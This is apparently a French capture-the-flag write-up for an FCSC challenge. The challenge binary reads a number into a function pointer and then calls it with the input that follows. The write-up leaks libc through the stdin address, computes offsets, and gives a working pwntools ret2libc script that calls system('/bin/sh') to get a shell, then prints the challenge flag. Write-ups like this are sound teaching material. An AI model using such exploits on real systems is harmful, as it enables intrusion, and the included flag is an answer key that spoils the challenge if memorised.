




## 📝 Description du Challenge

Le challenge fournit un binaire ELF 64-bit et les fichiers de la bibliothèque (`libc-2.36.so`, `ld-2.36.so`). Le but est d'exploiter une vulnérabilité d'appel de fonction arbitraire pour lire le flag.


---

## 🔍 Phase d'Analyse

### 1. Sécurités du binaire

L'analyse avec `checksec` révèle les protections suivantes :

- **PIE (Position Independent Executable) :** L'adresse de base du binaire change à chaque exécution.
    
- **NX (No-Execute) :** La pile n'est pas exécutable (pas de shellcode direct).
    
- **Full RELRO :** La table GOT est en lecture seule.
    
- **No Canary :** Pas de protection contre les débordements de pile (mais inutile ici).
    



### 2. Analyse du code source

```
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

int
main(void)
{
 void (*call_me)(char *);
 char blah[32];

 printf("%p\n", stdin);

 if (scanf("%zd%*c", (ssize_t *)&call_me) != 1) {
  fputs("This is not a number.\n", stderr);
  return EXIT_FAILURE;
 }

 if (fgets(blah, sizeof(blah), stdin) == NULL) {
  fputs("Read error.\n", stderr);
  return EXIT_FAILURE;
 }

    call_me(blah);

 return EXIT_SUCCESS;
}            
```

Le code source est très court et présente un flux d'exécution dangereux :

1. Il affiche l'adresse de `stdin` (Leak de la Libc).
    
2. Il lit un nombre via `scanf` et le stocke dans un pointeur de fonction `call_me`.
    
3. Il lit une chaîne via `fgets` dans un buffer `blah`.
    
4. Il exécute `call_me(blah)`.
    

**Vulnérabilité :** Nous contrôlons totalement la fonction appelée et son premier argument.

---

## 🛠️ Exploitation

### 1. Calcul des offsets (Libc 2.36)

Puisque l'ASLR est actif, nous devons calculer l'adresse de `system` à partir du leak de `stdin`.

Utilisation de `nm` pour extraire les offsets :

- **Offset `_IO_2_1_stdin_` :** `0x1d2a80`
    
- **Offset `system` :** `0x4c490`
    
```
nm -D libc-2.36.so | grep "system"

nm -D libc-2.36.so | grep "_IO_2_1_stdin_"
```



### 2. Stratégie (Ret2Libc)

L'objectif est de transformer l'appel `call_me(blah)` en `system("/bin/sh")`.

- **Input 1 (scanf) :** L'adresse calculée de `system` en format décimal.
    
- **Input 2 (fgets) :** La chaîne `"/bin/sh"`.
    

### 3. Script d'exploit

Le script utilise `pwntools` pour automatiser le calcul de la base de la Libc et l'envoi des payloads.

```python
from pwn import *

p = remote('localhost', 4000)

# 1. Récupération du leak
leak_stdin = int(p.recvline().strip(), 16)

# 2. Calcul des adresses
offset_stdin = 0x1d2a80
offset_system = 0x4c490
libc_base = leak_stdin - offset_stdin
addr_system = libc_base + offset_system

# 3. Envoi des payloads
p.sendline(str(addr_system).encode())
p.sendline(b"/bin/sh")

p.interactive()
```

---

## 🚩 Flag

Après exécution, nous obtenons un shell et pouvons lire le fichier `flag.txt`.



**Flag :** `FCSC{c22407092c870dfb9b6ee7e5277015de9c2a6fbc16a251237c037e73eb7a3a7e}`

---

### 💡 Notes 

- **Type de vuln :** Arbitrary Function Call
    
- **Vecteur :** `scanf("%zd")` vers un pointeur de fonction.
    
- **Bypass :** ASLR bypass via leak de pointeur Libc.
